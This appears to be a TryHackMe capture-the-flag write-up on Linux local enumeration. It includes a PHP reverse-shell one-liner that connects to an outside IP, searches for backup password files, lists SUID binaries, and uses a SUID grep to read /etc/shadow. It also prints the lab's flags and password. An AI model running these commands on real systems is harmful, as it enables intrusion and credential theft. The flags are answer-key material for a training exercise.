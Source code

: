 > Linux: Local Enumeration

Navigate to `http://$IP:3000/cmd.php` and paste this payload`php -r '$sock=fsockopen("10.8.107.21",12345);exec("/bin/sh -i <&3 >&3 2>&3");'` to get a reverse shell!

Looking at .bash_history we get a flag!

# Flag 1

```
thm{clear_the_history}
```

We have to search for a password and hint says that it is a backup so let's search for .bak.

`find / -type f -name *.bak 2>/dev/null`

```
/var/opt/passwords.bak => Looks like it and password is `THMSkidyPass`
/var/backups/shadow.bak
/var/backups/passwd.bak
/var/backups/gshadow.bak
/var/backups/group.bak
```

And the flag is hiiden in .conf file.

`find / -type f -name flag.conf 2>/dev/null`


# /etc/sysconf/flag.conf

```
# Begin system conf 1.1.1.0
## Developed by Swafox and Chad

flag: thm{conf_file}
```

# SUID Bit

`find / -type f -perm -u=s 2>/dev/null`

```
/bin/su
/bin/grep
/bin/ntfs-3g
/bin/mount
/bin/ping
/bin/umount
/bin/fusermount
/usr/bin/chsh
/usr/bin/arping
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
....
```

And grep I haven't seen much so I went with that. let's look for it in GTFO.

```
grep '' /etc/shadow
```

And we can read /etc/shadow.